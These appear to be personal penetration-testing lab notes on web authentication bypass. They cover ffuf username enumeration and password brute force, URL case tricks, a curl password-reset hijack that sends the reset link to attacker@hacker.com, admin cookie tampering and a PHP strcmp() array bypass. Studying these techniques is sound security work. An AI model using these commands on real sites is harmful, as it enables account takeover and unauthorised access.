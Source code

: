 # Authentication Bypass

## Username Enumeration

* Try a random username that probably does not exist, and then try one that probably exists, is there a different error?

```
jksaljkfl <- username that does not exist
admin <- username that probably exists
guest <- another potential username
```

* We can use the existence of this error message to produce a list of valid usernames already signed up on the system by using the ffuf tool below
* The ffuf tool uses a list of commonly used usernames to check against for any matches.
* Capture the request in `Burp` to find the `Content-Type`, whether its a `GET` or `POST`

```
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"
```

* `-w` -> selects the file's location
* `-X` -> argument specifies the request method
* `-d` -> the data that we are going to send
* `FUZZ` -> keyword signifies where the contents from our wordlist will be inserted in the request
* `-H` -> for adding additional headers to the request
* `-u` -> specifies the URL we are making the request to
* `-mr` -> is the text on the page we are looking for to validate we've found a valid username

## Password Brute force attack

```
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
```

* Previously we used the FUZZ keyword to select where in the request the data from the wordlists would be inserted, but because we're using multiple wordlists, we have to specify our own FUZZ keyword.
* `W1` -> for our valid list of usernames
* `W2` -> for the list of passwords we are going to try
* `-w` -> the multiple word lists are also specified with this flag
* `-fc` -> this argument check for an HTTP status code other than a 200

## Authentication Bypass Logic Flaw

* If a specific url is blocked without authentication like `/admin`, depending on the code you may be able to bypass it.
* Try:

```
/adMin
/aDmIn
```

### Finding password reset forms

* If there is an option always make an account. There could be pages you have access to that you otherwise would not.
* Also if there is a password reset option on the site you might be able to get their password reset link sent to you.
* Use curl to figure out how the parameters are passed to the server, in this example the username is a `POST` field and the email address is a `GET` field

```
curl 'http://10.10.115.78/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
```

* `-H` -> to add an additional header to the request. In this case we are setting the `Content-Type` to `application/x-www-form-urlencoded`
* Can find this out in burp, or set something ourselves
* The `PHP $_REQUEST` variable is an array that contains data received from the query string and POST data. - If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form
* We can control where the password reset email gets delivered.

```
curl 'http://10.10.115.78/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

* Now re-running the curl command we can alter where the reset link is sent

```
curl 'http://10.10.115.78/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
```

## Cookie Tampering

* Decode the stored cookies and see if you can manipulate them before making curl requests with the new tampered cookies.
* First, we'll start just by requesting the target page:

```
curl http://MACHINE_IP/cookie-test
```

* We can see we are returned a message of: Not Logged In
* Now we'll send another request with the logged\_in cookie set to true and the admin cookie set to false:

```
curl -H "Cookie: logged_in=true; admin=false" http://MACHINE_IP/cookie-test
```

* We are given the message: Logged In As A User
* Finally, we'll send one last request setting both the logged\_in and admin cookie to true:

```
curl -H "Cookie: logged_in=true; admin=true" http://MACHINE_IP/cookie-test
```

* This returns the result: Logged In As An Admin

### strcmp() PHP bypass

* If you are able to get access to some php course code that uses `strcmp()` for checking usernames and passwords, bypassing it can be trivial&#x20;

<figure><img src="../.gitbook/assets/image (3) (3).png" alt=""><figcaption><p>Example of php source code using strcmp()</p></figcaption></figure>

* By capturing the authentication in burp you can turn the username and or password field into an array, bypassing the authentication, in this instance we must do it for both the username and password fields.

<figure><img src="../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>

* When submitting a normal request, we are informed that `'Wrong Username or Password'`
* However, once we change our parameters into an array value with the fields === 0, we login&#x20;

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

* `username[]=0&password[]=0`

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>
